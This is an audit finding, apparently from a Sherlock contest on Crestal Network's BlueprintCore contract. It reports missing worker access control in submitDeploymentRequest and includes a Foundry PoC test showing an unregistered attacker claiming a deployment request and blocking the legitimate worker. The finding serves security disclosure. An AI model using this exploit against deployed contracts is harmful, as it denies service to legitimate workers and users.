 Wobbly Red Lion

High

# Missing access control in `BlueprintCore::submitDeploymentRequest` will cause denial of service  for legitimate workers

### Summary

Missing access control in `BlueprintCore::submitDeploymentRequest` will cause denial of service for legitimate workers as an attacker can claim deployment requests without proper registration.

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L602

### Root Cause

In `BlueprintCore::submitDeploymentRequest` function lacks a check to verify if the caller is a registered worker. This allows any address to claim deployment requests regardless of their worker status.



Attack Path
- User creates deployment request (createProjectIDAndDeploymentRequest)

- Attacker calls submitDeploymentRequest with valid projectID/requestID

- System accepts attacker's submission without worker verification

- Attacker becomes assigned worker for the request

- Legitimate worker is blocked from claiming the already-assigned request

### Internal Pre-conditions

- Legitimate worker must have registered their public key via setWorkerPublicKey

- Attacker has NOT completed worker registration

- User must create a valid deployment request with createProjectIDAndDeploymentRequest

### External Pre-conditions

none

### Attack Path

- User creates deployment request (createProjectIDAndDeploymentRequest)

- Attacker calls submitDeploymentRequest with valid projectID/requestID
 
- System accepts attacker's submission without worker verification
 
- Attacker becomes assigned worker for the request
 
- Legitimate worker is blocked from claiming the already-assigned request

### Impact

Legitimate workers suffer denial of service as they cannot claim intended deployment requests. Users risk having their deployments processed by unwanted workers, potentially leading to service quality issues or security risks.

### PoC

put this code in your test folder

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/BlueprintCore.sol";
import "./MockERC20.sol";
import "./MockERC721.sol";

contract BlueprintCoreVulnerabilityTest is Test {
    BlueprintCore blueprintCore;
    MockERC20 mockToken;
    MockERC721 mockNFT;

    address owner = address(0x1);
    address legitimateWorker = address(0x2);
    address attacker = address(0x3);
    address user = address(0x4);

    bytes publicKey = "0x010203";
    string serverURL = "https://example.com";
    string base64Proposal = "eyJ0eXBlIjoiREEiLCJsYXRlbmN5Ijo1LCJtYXhfdGhyb3VnaHB1dCI6MjB9";

    function setUp() public {
        blueprintCore = new BlueprintCore();
        mockToken = new MockERC20();
        mockNFT = new MockERC721();

        vm.startPrank(legitimateWorker);
        blueprintCore.setWorkerPublicKey(publicKey);
        vm.stopPrank();

        console.log("Legitimate worker address:", legitimateWorker);
    }

    function test_submitDeploymentRequest_vulnerability() public {
        vm.startPrank(user);

        bytes32 requestId = blueprintCore.createProjectIDAndDeploymentRequest(
            bytes32(uint256(0x1234)), 
            base64Proposal,
            serverURL
        );

        bytes32 projectId = blueprintCore.getLatestUserProjectID(user);

        console.log("Project ID:", vm.toString(projectId));
        console.log("Request ID:", vm.toString(requestId));
        vm.stopPrank();

        (BlueprintCore.Status status, address workerAddr) = blueprintCore.requestDeploymentStatus(requestId);
        assertEq(uint(status), uint(BlueprintCore.Status.Issued));
        assertEq(workerAddr, address(0));
        console.log("Step 1 completed - Deployment request created successfully");

        vm.startPrank(attacker);
        console.log("Attacker trying to submit deployment request...");
        bool success = blueprintCore.submitDeploymentRequest(projectId, requestId);
        vm.stopPrank();

        console.log("Step 2 completed - Attacker was able to submit deployment request:", success);

        (BlueprintCore.Status statusAfter, address workerAfter) = blueprintCore.requestDeploymentStatus(requestId);

        assertTrue(success, "Attacker should be able to submit deployment request");
        assertEq(uint(statusAfter), uint(BlueprintCore.Status.Pickup));
        assertEq(workerAfter, attacker);
        console.log("Step 3 completed - Verified attacker claimed the deployment request");

        vm.startPrank(legitimateWorker);
        console.log("Legitimate worker trying to submit the same deployment request...");
        vm.expectRevert("requestID already picked by another worker, try a different requestID");
        blueprintCore.submitDeploymentRequest(projectId, requestId);
        vm.stopPrank();

        console.log("Step 4 completed - Legitimate worker was blocked as expected");
    }
} 

```

### Mitigation

Add a verification or some type of registration for workers to prevent such attacks